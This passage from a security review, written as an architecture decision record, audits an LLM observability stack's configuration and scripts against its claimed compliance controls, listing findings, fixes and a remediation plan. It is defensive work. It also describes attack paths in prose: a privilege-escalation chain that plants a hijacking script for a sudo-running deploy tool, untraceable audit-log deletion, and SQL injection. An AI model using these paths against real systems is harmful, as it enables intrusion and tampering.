It is also self-defeating as a provenance marker: because it is *injected* rather than *validated*, and because every backend is directly reachable (P0-5), it cannot distinguish gateway-originated traffic from direct traffic. A cryptographic signature would require a key, a message, a signing operation, and a verification step. None exist.

**Fix:** delete the header and the label, or replace them with real provenance — mTLS between Traefik and each backend, with backends configured to reject connections lacking a valid client certificate. Then **rewrite ADR-0006 Edge Case 12 and §8.3** to describe what is actually enforced. Naming a constant string a "cryptographic origin signature" in a document that cites ISO 27001 is the kind of claim that turns a security review into an audit finding.

---

### P2-2 — Edge Case 13 records the removal of certificate validation as a hardening improvement

**Evidence:** ADR-0006 §4.1 row 13 and §4 "13. HTTPS Gateway Probe"; `scripts/test-health.sh:120, 182, 184`

Edge Case 13 states the root cause as: *"`check_http` invoked `curl` without `-k` (`--insecure`), causing self-signed SAN TLS certificate verification to fail (`HTTP 000000`)"* and records the mitigation as *"Added `-k` TLS handshake flag."*

The diagnosis inverts cause and effect. `curl` was not malfunctioning — it correctly reported that the gateway presents a certificate signed by a CA it does not trust. The correct fix is to trust the platform's own CA (`curl --cacert config/certs/ca.pem`), which validates both the chain and the hostname. Instead, `-k` was added in three places, permanently disabling certificate verification in every HTTPS probe the platform runs against itself.

The second half of the edge case — correcting `check_http` to match against `$code` rather than the response body — is a genuine bug fix, but it was applied incompletely: the body-match fallback is still present at `test-health.sh:124` and `:136` (see P1-3d).

The compounding effect matters more than either detail. Because `manage.sh` regenerates the CA on every deploy (P1-10), certificate verification is *always* failing, so "just add `-k`" appears to be the pragmatic answer every time. **This is the failure mode this ADR most wants to flag: a resilience document treating a security signal as noise, and recording its suppression as progress.** The same reflex produced `|| true` on the GDPR deletions, `|| exit 0` in the healthchecks, and `2>/dev/null` on the firewall rule.

**Fix:** replace `-k` with `--cacert "$PKG_DIR/config/certs/ca.pem"` in all three probes; stop regenerating the CA (P1-10); and amend Edge Case 13 in ADR-0006 to record that validation was disabled, not that TLS was hardened.

---

### P2-3 — The "immutable" audit log is neither immutable nor created

**Evidence:** `config/alloydb/security-audit.sql`; ADR-0006 §8.1

ADR-0006 §8.1 cites an "immutable database audit log table" as the SOC 2 Type II audit-trail control. The artifact is a 13-line file defining a plain heap table with a `SERIAL` primary key and two indexes. It has:

- no `REVOKE UPDATE, DELETE` from application roles;
- no `BEFORE UPDATE OR DELETE` trigger raising an exception;
- no hash chaining or sequence-gap detection, so silent row deletion is undetectable;
- no append-only storage, WORM medium, or off-host replication;
- no writers other than `gdpr-erasure.sh` — nothing in the platform logs authentication, authorization, configuration change, or administrative action to it, despite §8.1 claiming it "tracks all administrative actions and security events."

And, per P0-4, **the file is never executed**: it is not mounted into the AlloyDB container and appears nowhere in `docker-compose.yml` or `scripts/`. The table does not exist. The only code that writes to it fails silently.

Every account with the `admin` credential — which is every component in this stack, and every reader of this repository — can `DELETE FROM security_audit_logs` without trace.

**Fix:** mount `config/alloydb/` at `/docker-entrypoint-initdb.d/` so the DDL runs; create a dedicated `audit_writer` role with `INSERT`-only grants; `REVOKE UPDATE, DELETE` from all application roles; add a trigger that rejects `UPDATE`/`DELETE`; add a `prev_hash`/`row_hash` chain so tampering is detectable; ship rows to an append-only external sink; instrument real security events. Until then, **remove the word "immutable" from ADR-0006 §8.1.**

---

### P2-4 — Secrets are delivered through `environment:`, command lines, and process arguments

**Evidence:** `docker-compose.yml:62, 73, 143, 226, 269-273, 299-300`; `scripts/gdpr-erasure.sh:56, 59`; `scripts/test-health.sh:333, 335`

Every credential in this platform is delivered by a mechanism that leaks it:

- **`environment:`** — readable via `docker inspect`, via `/proc/<pid>/environ`, via the Docker API to anything holding the socket (P0-6), and inherited by every child process in the container.
- **Command line** — `redis-server ... --requirepass ${REDIS_PASSWORD}` (L62) and the Redis healthcheck `redis-cli -a ${REDIS_PASSWORD}` (L73) place the password in `ps` output on the host and in `docker inspect`. The healthcheck re-executes it every 3 seconds.
- **`curl -u user:pass`** — `gdpr-erasure.sh:56, 59` and `test-health.sh:337` build `-u "${CH_USER}:${CH_PW}"` into argv, visible to any local user running `ps` during execution. The variable is also unquoted (`curl -s $AUTH_HEADER`), relying on word splitting.
- **Cleartext transport** — those same `curl` calls target `http://localhost:31421`, so an admin credential with `access_management` crosses the loopback (and, if the host is later reconfigured, the network) unencrypted.

There is no use of Docker secrets, no `*_FILE` env-var convention, and no external secret manager anywhere in the stack.

**Fix:** adopt Docker/Swarm secrets or bind-mounted `tmpfs` secret files with `*_FILE` indirection (supported natively by Postgres, ClickHouse, and Grafana). Replace CLI-passed passwords with file reads. Use `curl --netrc-file` or a header from a file rather than `-u`. Quote all variable expansions. Move admin queries to HTTPS or the loopback-bound native protocol with TLS.

---

### P2-5 — No retention or TTL policy anywhere; personal data is retained indefinitely

**Evidence:** `config/tempo/tempo-config.yaml` (no `compactor` block); `config/clickhouse/config.d/custom.xml` (no TTL); `docker-compose.yml:95-108` (no Kafka retention); `docker-compose.yml:1-5` (log rotation only)

GDPR Art. 5(1)(e) storage limitation, and every retention commitment implied by ADR-0006 §8.2, require bounded retention. This stack has none:

| Store | Retention configured | Effective policy |
| --- | --- | --- |
| Tempo | No `compactor.compaction.block_retention` | Forever, until the disk fills |
| ClickHouse | No table `TTL`; `opentelemetry_span_log` enabled with no rotation | Forever |
| Kafka | No `KAFKA_LOG_RETENTION_*` | Broker default (7 days), unstated and unmanaged |
| Redis | `allkeys-lru` at 256 MB | Eviction by pressure, not by policy |
| Traefik access logs | `json-file` 3 × 50 MB | 150 MB of credential-bearing logs (P0-10) |
| AlloyDB | None | Forever |
| `backups/` | None | Forever, unencrypted (P0-11) |

This also undercuts ADR-0006 §1's own framing: it lists "Log Volume Disk Exhaustion" as a solved pain point, having solved it for Docker's JSON logs while leaving Tempo's local block storage — fed by an unauthenticated, unrate-limited OTLP receiver (P1-1) — entirely unbounded. That is the more likely disk-exhaustion path and the one an attacker can drive.

**Fix:** set `compactor.compaction.block_retention` in Tempo; add `TTL` clauses to every ClickHouse telemetry table and to `opentelemetry_span_log`; set explicit Kafka `retention.ms` per topic; define and document a single retention period per data class; enforce it in configuration rather than in prose; and reconcile it with the erasure workflow (P0-4).

---

### P2-6 — The `debug` exporter writes span data to container logs in the production pipeline

**Evidence:** `config/otel-collector/otel-collector-config.yaml:71-72, 79`

```yaml
exporters:
  debug:
    verbosity: basic
service:
  pipelines:
    traces:
      exporters: [otlp/tempo, debug]      # L79
```

The `debug` exporter is a development aid. Its presence in the live pipeline creates a second, unmanaged copy of telemetry in container stdout — captured by `json-file`, retained at 150 MB, readable by anyone in the `docker` group, outside the scope of the erasure workflow (P0-4), and outside any retention policy (P2-5). `verbosity: basic` limits the volume but does not make it an appropriate destination for data the platform has separately declared sensitive enough to require redaction.

**Fix:** remove `debug` from the `exporters` list of the traces pipeline. If pipeline visibility is needed, use the collector's own internal telemetry metrics (`service.telemetry.metrics`) or enable `debug` behind an explicitly non-production overlay file.

---

### P2-7 — Readiness gating is defeated by its own fallbacks; the WAL race in Edge Case 11 is not actually mitigated

**Evidence:** `scripts/orchestrator/stack-orchestration.sh:55, 60, 65, 70, 75, 80, 85, 90, 115-124`; ADR-0006 Edge Case 11

Four distinct defects make the "3-stage ordered orchestration" non-blocking:

1. **`grep -q 'healthy\|running'` matches `unhealthy`.** At L55, the substring `healthy` is contained in `unhealthy`, so a container in the `unhealthy` state satisfies the readiness predicate.
2. **Every `wait_for_*` function returns success when the wait fails.** Each ends with a bare `echo` of a warning (L60, L70, L80, L90) rather than `return 1`. Since `echo` exits 0, the function's exit status is 0 whether or not the service ever became ready. Nothing downstream can detect the timeout.
3. **The fallbacks accept a port bind as readiness.** `wait_for_alloydb` (L85) falls back to `nc -z localhost 31420`; `wait_for_clickhouse_http` (L65) to `nc -z localhost 31421`. Docker's userland proxy binds the published port at container *creation*, before the database process starts, so `nc -z` succeeds immediately and unconditionally. **The fallback fires the moment the container is created, which is precisely the WAL-recovery window Edge Case 11 exists to avoid.**
4. **Every stage is `|| true`.** L115, L120, L123 — a failed `docker compose up -d` does not stop the pipeline.

Also at L117 and L124, the calls pass an argument (`wait_for_clickhouse_http 20`) to functions that accept no parameters — the value is silently discarded. Harmless in itself, but indicative of code that was written and never exercised.

**Fix:** change the predicate to an exact match on `healthy`/`running`; make every `wait_for_*` `return 1` on timeout and have the caller abort; remove the `nc -z` fallbacks and use real readiness probes (`pg_isready` exit status, ClickHouse `/ping` returning `Ok.`); remove `|| true` from the `up -d` invocations; and remove `|| exit 0` from the compose healthchecks (P1-3f) so `condition: service_healthy` becomes usable in `depends_on`.

---

### P2-8 — Gateway TLS and header policy gaps

**Evidence:** `config/traefik/dynamic.yml:15, 21, 37, 39-42`; `docker-compose.yml:30, 42`

- **`sniStrict: false` (L15)** — the default certificate is served to any request, including one with no SNI or an unrecognised SNI, so the gateway answers for hostnames it was never configured to serve.
- **No `Content-Security-Policy`** in `security-headers`, despite Grafana being served through it. CSP is the header that actually mitigates XSS.
- **`X-XSS-Protection: "1; mode=block"` (L37)** is deprecated, ignored by all current browsers, and was itself a source of vulnerabilities in the browsers that honoured it. It is present in the health suite as a passing "security hardening check," which inflates the check count without adding protection.
- **`stsPreload: true` with `stsIncludeSubdomains` (L24-25)** asserts preload eligibility for `*.llmobs.local` — a non-public suffix served by a self-signed CA. Harmless locally, actively dangerous if these settings are ever carried to a real domain, since preload is difficult to reverse.
- **`https-redirect` middleware (L39-42) is defined but attached to no router.** The HTTP→HTTPS redirect is instead handled at the entrypoint (`docker-compose.yml:22-23`), which works — leaving dead configuration that suggests coverage where none is applied.
- **Internal hops are plaintext** — `--tracing.otlp.grpc.insecure=true` (`docker-compose.yml:30`) and `OTEL_EXPORTER_OTLP_ENDPOINT=http://...` (L42 and on every service).
- **`auth-service` routes to `http://host.docker.internal:3001`** (`dynamic.yml:162`) — authentication traffic, the most credential-dense path in the system, traverses the host boundary in cleartext.

**Fix:** set `sniStrict: true`; add a `contentSecurityPolicy` appropriate to Grafana; drop `X-XSS-Protection` and its health check; remove `stsPreload` until a real domain with a real CA exists; delete the unused `https-redirect` middleware; enable TLS on internal OTLP hops; move `auth-service` to HTTPS.

---

## 6. P3 — Low Findings

| ID | Finding | Evidence |
| --- | --- | --- |
| P3-1 | ADR-0006 uses **absolute `file:///home/btpl-lap-22/...` links throughout**. They disclose the author's local filesystem layout in a committed document and resolve for no one else. Use repository-relative paths. | ADR-0006 §4.1, §7, §8 |
| P3-2 | `dynamic-discovery.sh:192-196` uses `export -f` on five functions, injecting `BASH_FUNC_*` definitions into the environment of every descendant process. Poor hygiene with a long history of related vulnerabilities. | `dynamic-discovery.sh:192-196` |
| P3-3 | `DOCKER_API_VERSION=1.40` pins Traefik to a 2019-era Docker API. Unnecessary once the socket mount is replaced (P0-6). | `docker-compose.yml:40` |
| P3-4 | Grafana sets `GF_SECURITY_COOKIE_SECURE=true` but is published on plain HTTP `31415`, and `GF_SERVER_ROOT_URL` is unset. Session cookies will not be issued over the direct HTTP path — a latent, confusing auth failure. | `docker-compose.yml:221-232` |
| P3-5 | `GF_INSTALL_PLUGINS` downloads plugins from the internet at container start, unpinned and unverified. A network failure breaks startup; a compromised registry executes code. Bake plugins into a derived image at a pinned version. | `docker-compose.yml:224` |
| P3-6 | `setup.sh:137` appends to `/etc/hosts` via `sudo tee -a` with no idempotency marker, accumulating duplicate lines across runs. | `scripts/setup.sh:129-141` |
| P3-7 | Tempo declares `metrics_generator` processors under `overrides.defaults` with no `metrics_generator` storage or `remote_write` target configured — the generator has nowhere to write. | `config/tempo/tempo-config.yaml:22-26` |
| P3-8 | ADR-0006 §3.1 lists resource limits for Traefik (512 MB), Tempo (1024 MB), Grafana (1024 MB), and Redis (512 MB). **None of those four services has a `deploy.resources` block.** Only Kafka, ClickHouse, OTel, and AlloyDB do. The table overstates coverage by half. | `docker-compose.yml`; ADR-0006 §3.1 |
| P3-9 | The email redaction regex `[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}` will redact non-PII strings that resemble addresses (model identifiers, package specifiers), degrading telemetry quality. Prefer attribute-key allowlisting over value regex. | `otel-collector-config.yaml:35` |
| P3-10 | `config/kafka/server.properties` is mounted but the image is configured entirely through `KAFKA_*` environment variables. Determine which is authoritative and delete the other; a config file that appears to configure a broker but does not is a trap for the next reader. | `docker-compose.yml:112` |

---

## 7. ADR-0006 Claims That Are Not Implemented

This table is the deliverable an auditor will ask for. Every row is a statement in ADR-0006 that the code contradicts.

| ADR-0006 location | Claim | Reality | Finding |
| --- | --- | --- | --- |
| §8.6 layer 4; §8.7.3 | "Microservice Sandbox Security (`no-new-privileges:true`)", with `prctl(PR_SET_NO_NEW_PRIVS, ...)` execution path | The string appears nowhere in the repository. No `cap_drop`, `read_only`, or `user:` either. | P1-4 |
| §8.1 | "Creates an **immutable** database audit log table" | Plain heap table, no DML restrictions, no trigger, no hash chain — **and the DDL is never executed**. | P2-3, P0-4 |
| §6.1, §6.2, §8.9, §8.10 | Dual-write pipeline exporting spans to ClickHouse `telemetry_spans` / `opentelemetry_span_log` | No ClickHouse exporter exists in the collector config. `telemetry_spans` is never created. | P1-2 |
| §8.2 | PII redaction "sanitizes sensitive LLM data before persistence" | `error_mode: ignore` fails open; covers span attributes only, not span events where prompts live; and Traefik logs raw `Authorization` headers upstream of it. | P1-2, P0-10 |
| §8.2 | GDPR erasure "performs atomic purging" | Errors suppressed, success printed unconditionally, target tables do not exist, 5 of 7 data stores untouched. | P0-4 |
| §8.3; §4.1 row 12 | "Cryptographic Origin Signature" preventing spoofed internal requests | A Docker label plus a constant header that Traefik injects and nobody verifies. Value is public. | P2-1 |
| §8.4 | HIPAA "Port Isolation ... prevents port-listening process hijack attacks" | Every datastore published on `0.0.0.0`; the port manager itself SIGKILLs whatever holds those ports. | P0-5, P1-7 |
| §8.4 | "Enforces authentication guards on Redis and relational databases, validated automatically" | The validating check passes when the Redis container does not exist. Kafka, Tempo, Temporal, and the OTLP receivers have no authentication at all. | P1-3e, P0-9, P1-8 |
| §8.1 | "TLS 1.2+ Transport Encryption ... validates 4096-bit RSA certificate chain" | The chain check passes on a bare TCP connect; the HTTPS probes use `curl -k`. Internal hops are plaintext. | P1-3b, P2-2 |
| §2.3; §4.1 rows 1, 9 | Pre-flight "checks" for file descriptors, NTP, firewall | `ulimit` call is a no-op for containers; NTP check tests only for a binary's existence; UFW rule targets a non-existent interface and would not filter published ports anyway. | P1-6, P0-5 |
| §4.1 row 11; §2.2 | "Exponential Backoff & Jitter polling until AlloyDB & ClickHouse report 'ready'" | Waits return success on timeout; `nc -z` fallback succeeds at container creation, inside the WAL window the control targets. | P2-7 |
| §5.1 | "✓ ALL 52/52 HEALTH & SECURITY CHECKS PASSED" | Suite cannot fail: WARN counts as PASS, TLS check passes on TCP connect, headers unvalidated, and `manage.sh` runs it with `\|\| true`. | P1-3 |
| §3.1 | Resource limits tabulated for Traefik, Redis, Tempo, Grafana | Those four services have no `deploy.resources` block. | P3-8 |
| §4.1 row 13 | Edge Case 13 recorded as HTTPS probe hardening | The change disabled certificate verification. | P2-2 |
| §8.5 | EU AI Act "auditability of LLM prompts and model executions" | Trace store is unauthenticated and world-readable; spans can be forged by any unauthenticated client; there is no retention policy and no tamper evidence. | P1-1, P1-8, P2-5 |

---

## 8. Attack Chains

These are compositions of the findings above, not new findings. They exist to show that the individual issues are not independent.



**Chain 2 — Local privilege escalation via deploy tooling.** Write `system-prereqs.sh` into any directory the operator might `cd` into, or anywhere in the repo tree at depth ≤ 4 (P1-5) → operator runs `./manage.sh up` → `find_required_script` resolves `$(pwd)/system-prereqs.sh` first → the planted script executes → the legitimate script's own contract establishes that `sudo apt-get install -y` and `sudo systemctl` are expected here (P1-6) → **root on the Docker host**, which is root on every container.

**Chain 3 — Silent, attested non-compliance.** A data subject exercises Art. 17 → operator runs `gdpr-erasure.sh --user-id=X` (P0-4) → ClickHouse target table does not exist; the audit table does not exist; Tempo, Kafka, Redis, Traefik logs, and backups are out of scope → every failure is suppressed by `|| true` → **the script prints "✓ GDPR data erasure completed successfully"** → the organisation certifies erasure to the subject and, on request, to a supervisory authority → the data is still fully readable, by anyone, on port 31416 (P1-8).

---

## 9. Decision

1. **ADR-0006 is amended, not superseded.** Its resilience content stands. Its §8 compliance content — SOC 2, ISO 27001, GDPR/CCPA, HIPAA, EU AI Act — is **withdrawn** pending remediation, along with §8.6, §8.7.1, §8.7.3, and the §5.1 check-count claim. Section 7's table above enumerates exactly what must be struck or rewritten.
2. **This stack is classified as a local development environment.** It must not be deployed to any host reachable by another person, must not process real customer telemetry, and must not process personal data, until Phase 1 and Phase 2 below are complete and independently verified.
3. **All credentials in `.env.example`, `datasources.yml`, `default-user.xml`, `gdpr-erasure.sh`, and `test-health.sh` are treated as public** as of this ADR's date. Rotation is mandatory and is not sufficient on its own — git history retains them.
4. **No ADR in this repository may describe a control as implemented without a file-and-line reference to its implementation and a negative test that fails when the control is removed.** This is the process defect that produced fourteen documented-but-absent controls; every finding in §7 traces back to it.

---

## 10. Remediation Plan

### Phase 1 — Stop the bleeding (target: 48 hours; blocks all non-laptop use)

| # | Action | Findings |
| --- | --- | --- |
| 1 | Rotate all four datastore passwords and the Grafana admin password. Purge values from `.env.example`, `datasources.yml`, `default-user.xml`, `gdpr-erasure.sh`, `test-health.sh`, `README.md`. Plan git-history purge. | P0-1, P0-2 |
| 2 | Delete `ensure_env_file` from `manage.sh`. Replace every `${VAR:-<password>}` in compose with `${VAR:?required}`. | P0-1 |
| 3 | Remove `ports:` from every service except Traefik. Bind any required debug port to `127.0.0.1`. | P0-5 |
| 4 | Remove `--api.insecure=true`, delete the `:8080` entrypoint and the `31411` publication. | P0-6 |
| 5 | Set `--accesslog.fields.headers.defaultmode=drop`; destroy existing access logs on every host that has run this stack. | P0-10 |
| 6 | Disable `gdpr-erasure.sh` (exit 1 with a pointer to this ADR) until P0-3 and P0-4 are fixed. Do not leave a tool in place that falsely attests erasure. | P0-3, P0-4 |
| 7 | Split `backup-purge`; gate `purge` behind explicit confirmation and verified backups. Add `backups/` to `.gitignore`. | P0-11 |
| 8 | Set `CLICKHOUSE_DEFAULT_ACCESS_MANAGEMENT=0`; add `:ro` to the `users.d` mount. | P0-8 |
| 9 | Remove `"*"` from OTLP `allowed_origins` and `allowed_headers`. | P1-1 |
| 10 | Add secret scanning as a required CI gate. | P0-1, P0-2 |

### Phase 2 — Establish real controls (target: 2 weeks; required before any shared environment)

| # | Action | Findings |
| --- | --- | --- |
| 11 | Introduce Docker secrets / `*_FILE` indirection for every credential. Remove passwords from `environment:`, command lines, and `curl -u`. | P2-4, P0-7 |
| 12 | Split networks: `llmobs-edge` and `internal: true` `llmobs-data`. | P0-5 |
| 13 | Add `security_opt: [no-new-privileges:true]`, `cap_drop: [ALL]`, `read_only: true` + `tmpfs`, `pids_limit`, non-root `user:` to every service. Verify with `docker inspect` assertions. | P1-4 |
| 14 | Add `forwardAuth`/OIDC to the gateway; put the dashboard, Tempo, Grafana, and Temporal behind it. | P0-6, P1-8 |
| 15 | Kafka: SASL_SSL + SCRAM, `StandardAuthorizer`, per-principal ACLs, explicit retention. | P0-9 |
| 16 | Redis: ACL user with a command allowlist, `default` disabled, full dangerous-command denylist, TLS. | P0-7 |
| 17 | ClickHouse: writer / `readonly=2` reader / break-glass admin; `<networks>` scoped to the bridge CIDR; `password_sha256_hex` from a secret; per-user quotas. | P0-8 |
| 18 | Delete dynamic discovery for executables; resolve strictly relative to `${BASH_SOURCE[0]}`. Remove all `sudo` from the deploy path into a separate, consent-gated `bootstrap`. | P1-5, P1-6 |
| 19 | Rewrite `port-manager.sh` to detect-and-fail rather than SIGKILL. | P1-7 |
| 20 | Remove `ipStrategy.depth`; stop deriving identity from `X-Forwarded-For`. | P1-9 |
| 21 | Stable CA with the key stored outside the tree; 90-day leaf; remove `--force` from `manage.sh`; replace `curl -k` with `--cacert`. | P1-10, P2-2 |
| 22 | Pin every image to a digest; add Trivy to CI with a severity gate. | P1-11 |
| 23 | Rewrite the health suite: WARN fails, TLS verified against the CA, header values asserted, body-match fallback removed, Redis check distinguishes Docker errors, `\|\| exit 0` and `\|\| true` removed. Add the negative tests from P1-3. | P1-3, P2-7 |

### Phase 3 — Earn the compliance claims (target: 6 weeks; required before re-asserting §8)

| # | Action | Findings |
| --- | --- | --- |
| 24 | Rebuild `gdpr-erasure.sh`: parameterised SQL, least-privilege role, per-store row counts, fail-loud, coverage of all seven stores, `mutations_sync=2`. | P0-3, P0-4 |
| 25 | Mount and execute the audit DDL; make the table genuinely append-only (revoked DML + trigger + hash chain); instrument real security events. | P2-3 |
| 26 | Redaction: `error_mode: propagate`, coverage of span events / names / resource attributes, allowlist-based `redaction` processor, alerting on redaction errors. | P1-2 |
| 27 | Either implement the ClickHouse exporter and `telemetry_spans` schema, or delete that path from ADR-0006's diagrams. | P1-2 |
| 28 | Define and enforce a retention period per data class across Tempo, ClickHouse, Kafka, Redis, logs, and backups. | P2-5 |
| 29 | Delete the network-signature theatre; replace with mTLS between gateway and backends, or state plainly that no such control exists. | P2-1 |
| 30 | Rewrite ADR-0006 §8 against the implemented reality, with file:line evidence and a corresponding negative test for every claim. | All |

---

## 11. Definition of Done

A control may be described as implemented in any ADR in this repository only when all four of the following hold:

1. **A file-and-line reference** to the implementation exists in the ADR.
2. **A negative test** exists that fails when the control is removed — not a test that the control's output string is present, but one that fails when the protection is gone.
3. **The test runs in CI** and its failure blocks the deploy path (no `|| true`, no `|| exit 0`).
4. **An independent reviewer has confirmed** the control's behaviour against a running instance, not against the document.

Applying rule 2 alone to ADR-0006 as it stands would invalidate every row in §7.

---

## 12. Consequences

**Accepted.** Substantial rework across compose, gateway, datastore configuration, and all seven scripts. Phase 1 alone will make the stack harder to poke at from a second machine, and the health suite will start failing — correctly — where it currently reports green. The convenience that `ensure_env_file`, `curl -k`, `|| true`, and blind port-killing purchased is the same convenience that produced every P0 in this document.

**Rejected.** Deferring Phase 1 while continuing to cite ADR-0006 §8 to any customer, auditor, or regulator. The gap between the document and the code is now written down; continuing to make the claims after this review converts an engineering defect into a knowing misrepresentation.

**Positive.** ADR-0006's genuine contributions — deterministic port allocation, cgroup limits, JVM heap bounds, log rotation, staged startup, named volumes, `ulimits` on Kafka and ClickHouse — are real, correctly implemented, and unaffected by this review. They should be retained verbatim. The problem is not the resilience work; it is the compliance narrative layered on top of it.

---

## 13. Finding Index

| ID | Severity | Title |
| --- | --- | --- |
| P0-1 | Critical | Credentials published in git; `manage.sh` reinstalls them on every deploy |
| P0-2 | Critical | All four datastore passwords committed in cleartext provisioning files |
| P0-3 | Critical | SQL injection in the GDPR erasure utility, as database superuser |
| P0-4 | Critical | GDPR erasure reports success unconditionally; targets tables that do not exist |
| P0-5 | Critical | Every datastore published on `0.0.0.0`; UFW does not filter published ports |
| P0-6 | Critical | Unauthenticated Traefik API/dashboard, with the Docker socket mounted |
| P0-7 | Critical | Redis dangerous commands unrestricted, no ACLs, no TLS, network-exposed |
| P0-8 | Critical | ClickHouse `default` has `access_management`, accepts `::/0`, `users.d` writable |
| P0-9 | Critical | Kafka fully PLAINTEXT, no authentication or authorization, network-exposed |
| P0-10 | Critical | Traefik logs every request header upstream of PII redaction |
| P0-11 | Critical | `backup-purge` destroys all volumes; ClickHouse "backup" contains no data |
| P1-1 | High | Unauthenticated OTLP receivers with wildcard CORS |
| P1-2 | High | Redaction fails open, covers one signal, protects a non-existent write path |
| P1-3 | High | The 52-check health suite cannot fail |
| P1-4 | High | Container hardening claimed in ADR-0006 is entirely absent |
| P1-5 | High | Script-name hijack in discovery, feeding scripts that run `sudo` |
| P1-6 | High | `verify_*` functions mutate host state; two cannot detect what they check |
| P1-7 | High | `port-manager.sh` SIGKILLs any process on ports 31410-31425 |
| P1-8 | High | Tempo and Temporal have no authentication |
| P1-9 | High | Rate limiting bypassed via spoofed `X-Forwarded-For` |
| P1-10 | High | CA and server certificates regenerated on every deployment |
| P1-11 | High | Five images pinned to `:latest`, no digests, no scanning |
| P2-1 | Medium | "Zero-Trust Network Signature" is an injected, unverified constant |
| P2-2 | Medium | Edge Case 13 records disabling certificate validation as hardening |
| P2-3 | Medium | The "immutable" audit log is neither immutable nor created |
| P2-4 | Medium | Secrets delivered via environment, command lines, and process arguments |
| P2-5 | Medium | No retention or TTL policy anywhere |
| P2-6 | Medium | `debug` exporter writes span data to container logs in production |
| P2-7 | Medium | Readiness gating defeated by its own fallbacks; WAL race unmitigated |
| P2-8 | Medium | Gateway TLS and header policy gaps |
| P3-1..10 | Low | Documentation portability, hygiene, and configuration-drift defects |

---

**Reviewed against:** `packages/configs/llm-obs-infra` at commit `970fa533`, 2026-08-28.
**Artifacts examined:** `docker-compose.yml`, `.env` / `.env.example`, `config/traefik/{traefik,dynamic}.yml`, `config/otel-collector/otel-collector-config.yaml`, `config/redis/redis.conf`, `config/clickhouse/{config.d,users.d}/*`, `config/grafana/provisioning/datasources/datasources.yml`, `config/tempo/tempo-config.yaml`, `config/alloydb/security-audit.sql`, and all seven scripts under `scripts/`.
